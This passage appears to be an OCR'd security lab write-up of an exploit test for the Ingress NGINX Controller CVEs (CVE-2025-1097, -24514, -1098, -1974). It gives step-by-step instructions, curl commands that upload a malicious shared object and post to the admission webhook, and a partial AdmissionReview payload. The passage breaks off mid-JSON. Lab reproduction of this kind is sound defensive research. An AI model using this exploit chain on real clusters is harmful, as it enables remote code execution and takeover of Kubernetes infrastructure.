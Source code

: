 ## Exploit Testing

Successfully exploiting a vulnerable setup of the Ingress NGINX Controller for Kubernetes involves injecting malicious code into the controller's configuration file.

There are three ways to inject malicious code into the configuration file. The difference in exploiting these vulnerabilities lies in slightly modifying an admission JSON file according to its annotation.

- CVE-2025-24514 – `auth-url` Annotation Injection
- CVE-2025-1097 – `auth-tls-match-cn` Annotation Injection
- CVE-2025-1098 – mirror UID Injection

Then, use the vulnerability below to execute the malicious code injected.

- CVE-2025-1974 - NGINX Configuration Code Execution

#### Details

We can exploit CVE-2025-1097 to inject malicious code into the configuration file, followed by CVE-2025-1974 to execute the malicious file. We will not cover the other two configuration injection vulnerabilities, as only the auth-tls-match-cn annotation injection has been observed being actively exploited in the wild.

#### Steps

1. Set up two Ubuntu Servers, one running Kubernetes (k8s) master, and one running k8s worker.
2. Installed `ingress-nginx` and `calico`.
3. Create an Ubuntu pod as to act as an attacker.
4. Craft a malicious [shared object](https://askubuntu.com/questions/690631/executables-vs-shared-objects) (`.so`) file; ensure it is compatible with the running environment.
5. Send a request to `ingress-nginx LoadBalancer` IP address with a `Content-Length` larger than the actual body length. This will cause NGINX to buffer the request onto the filesystem.
6. Access the `ingress-nginx` pod and check the number in `/proc/(\d+)/fd/(\d+)`. Also, brute force the `pid` and `fd` number, if possible.
7. Use `kube-review` to create an `AdmissionReview` JSON file specifically for `ingress-nginx`.
8. Modify the configuration JSON file with the real `proc` number and `fd` number and send the request to the `ingress-nginx` admission controller.
9. Observe the effects of exploit payload.

#### Commands for Files and Payloads Used for the Exploit Test

```curl -vk http://<ingress-nginx-LB> -H 'Content-Type: application/octet-stream' -H 'Content-Length: 655360' --data-binary @librocker.so```

```curl -vk https://<ingress-nginx-admission-crotroller>/validate -H 'Content-Type: application/json' --data-binary @admission-mirror.json```

#### Example of admission.json to exploit CVE-2025-24514 (`auth-url` Annotation Injection)

```
{
  "kind": "AdmissionReview",
  "apiVersion": "admission.k8s.io/v1",
  "request": {
    "uid": "c3db49f8-1834-48e3-b9e6-cc20e12e5738",
    "kind": {
      "group": "networking.k8s.io",
      "version": "v1",
      "kind": "Ingress"
    },
    "resource": {
      "group": "networking.k8s.io",
      "version": "v1",
      "resource": "ingresses"
    },
    "requestKind": {
      "group": "networking.k8s.io",